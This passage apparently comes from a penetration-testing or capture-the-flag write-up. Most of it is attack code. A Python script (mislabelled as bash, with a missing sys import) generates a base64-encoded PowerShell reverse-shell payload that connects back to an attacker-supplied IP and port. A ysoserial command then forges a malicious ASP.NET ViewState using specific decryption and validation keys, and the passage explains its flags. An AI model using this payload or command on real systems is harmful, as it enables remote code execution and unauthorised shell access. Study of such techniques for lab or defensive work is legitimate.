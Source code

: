 ```bash
import base64

def help():
    print("USAGE: %s IP PORT" % sys.argv[0])
    print("Returns reverse shell PowerShell base64 encoded cmdline payload connecting to IP:PORT")
    exit()
    
try:
    (ip, port) = (sys.argv[1], int(sys.argv[2]))
except:
    help()

# payload from Nikhil Mittal @samratashok
# https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
#1. It creates a TCP client in powershell 
#2. Creates a data flow used to comunication with the server
#3. Prepare an array to save recieve data
#4. We have a while loop to keep the connection
#5. Convert bytes to text
#6. Execute data using iex
#7. Save the output of the command
#8. Convert to bytes
#9. Send bytes to data flow
#10. Close connection
payload = '$client = New-Object System.Net.Sockets.TCPClient("%s",%d);
$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + "PS " + (pwd).Path + "> ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()};
$client.Close()'
#Take a commands chain  and replace their parts with the ip and port given
payload = payload % (ip, port)

#We enconde the payload to utf16 because it is the default encode chain
#The is encode to base 64
#Finally we encode to UNICODE which helps to limit the characters
cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmdline)
```
<br/><br/>
![Untitled]({{ '/assets/images/cec5d0f0-764b-4005-9f93-0106f9cc1339-export-4ac175f3-58e3-48bd-ba40-ea331e233254/cec5d0f0-764b-4005-9f93-0106f9cc1339-export-4ac175f3-58e3-48bd-ba40-ea331e233254_Untitled_6.png' | relative_url }})
<br/><br/>
```bash
./ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "yourpaload" --path="/portfolio/default.aspx" --appath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
```
<br/><br/>
- **`./ysoserial.exe`**: :  Tool used to deserialization attacks<br/><br/>
- **`-p ViewState`**: Specifies the payload type<br/><br/>
- **`-g TypeConfuseDelegate`**: Specifies the gadget type. Gadget chains are sequences of classes and methods that when serialized and deserialized, lead to arbitrary code execution.This gadget type targets a broader range of scenarios where deserialization of objects with delegate properties is performed.<br/><br/>
- **`--path="/portfolio/default.aspx"`**: Specifies the path to the ASPX file where the ViewState will be injected.<br/><br/>
